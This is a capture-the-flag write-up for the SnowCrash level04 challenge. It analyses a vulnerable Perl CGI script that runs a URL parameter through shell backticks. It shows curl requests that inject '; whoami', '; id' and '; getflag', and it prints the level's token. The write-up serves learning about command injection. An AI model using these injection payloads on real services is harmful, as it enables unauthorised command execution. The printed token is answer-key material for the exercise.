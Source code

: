 # level04

1. Files found in `~/` :

    ```bash
    ./level04.pl
    ```

2. Script analysis

    The script is a small vulnerable CGI/Perl that executes the content of parameter `x` via shell backticks :

    ```perl
    use CGI qw{param};
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
    ```

    The value provided by a visitor is passed to the shell and executed.

    - Confirm that a service is listening on port 4747 :

    ```bash
    level04@SnowCrash:~$ ss -tlnp | grep 4747
    LISTEN 0 128 :::4747 :::*     
    ```

    - Check under which user the command will execute (quick test) :

    ```bash
    level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+whoami'
    flag04
    level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+id'
    uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
    ```

    The responses confirm that the script is active and will execute any command passed via the `x` parameter.

3. Exploitation

    The payload consists of separating the initial `echo` command from the malicious command with a `;` and calling `getflag` :

    ```bash
    curl 'http://127.0.0.1:4747/?x=%3B+getflag'
    ```

4. Token discovered

    The token is : `ne2searoevaevoem4ov4ar8ap`
